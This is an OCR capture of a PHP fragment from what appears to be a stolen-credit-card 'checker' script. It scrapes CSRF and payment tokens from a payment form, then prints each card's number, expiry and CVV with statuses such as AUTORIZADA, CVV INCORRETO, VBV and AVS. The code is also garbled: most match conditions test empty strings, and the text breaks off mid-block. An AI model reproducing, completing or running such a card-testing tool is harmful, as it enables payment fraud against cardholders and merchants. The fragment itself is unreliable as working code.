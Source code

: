 


$csrf = value($a,'<input name="id" type="hidden" value="','">');
$token = value($c,'<input name="__RequestVerificationToken" type="hidden" value="','">');
$payment_id = value($a,'<input type="hidden" name="payment_id" value="','">');
$hpp_ticket = value($a,'<input type="hidden" name="frm_id" value="','">');
$return = value($a,'<input type="hidden" name="timestamp" value="','">');
$session = value($a,'<input type="hidden" name="form_page_url" value="','">');
 


//echo $c;    




/**/


htmlentities($c);
    
         if (strpos($c, "") !== false) {
        //      echo "".$numero."|AUTORIZADA ";
       // echo "".$numero."|".$mes."|".$ano."|".$cvv."|ERRO:REPROVADA";
                echo "".$numero."|".$mes."|".$ano."|".$cvv."| $".$num." AUTORIZADA CVV INCORRETO";
                    
            }

            elseif (strpos($c, "transaction_id") !== false) {
        //      echo "".$numero."|AUTORIZADA ";
       // echo "".$numero."|".$mes."|".$ano."|".$cvv."|ERRO:REPROVADA";
                echo "".$numero."|".$mes."|".$ano."|".$cvv."| $".$num." AUTORIZADA ";
                    
            }

            elseif (strpos($c, "") !== false) {
        //      echo "".$numero."|AUTORIZADA ";
       // echo "".$numero."|".$mes."|".$ano."|".$cvv."|ERRO:REPROVADA";
                echo "".$numero."|".$mes."|".$ano."|".$cvv."| $".$num." AUTORIZADA AUTH-BB";
                    
            }

            elseif (strpos($c, "") !== false) {
        //      echo "".$numero."|AUTORIZADA ";
       // echo "".$numero."|".$mes."|".$ano."|".$cvv."|ERRO:REPROVADA";
                echo "".$numero."|".$mes."|".$ano."|".$cvv."| $".$num." AUTORIZADA AUTH";
                    
            }



            elseif (strpos($c, "") !== false) {
        //      echo "".$numero."|AUTORIZADA ";
       // echo "".$numero."|".$mes."|".$ano."|".$cvv."|ERRO:REPROVADA";
                echo "".$numero."|".$mes."|".$ano."|".$cvv."|$".$num." AUTORIZADA VBV";
                    
            } 


            elseif (strpos($c, "") !== false) {
        //      echo "".$numero."|AUTORIZADA ";
       // echo "".$numero."|".$mes."|".$ano."|".$cvv."|ERRO:REPROVADA";
                echo "".$numero."|".$mes."|".$ano."|".$cvv."| $".$num." AUTORIZADA AVS";
                    
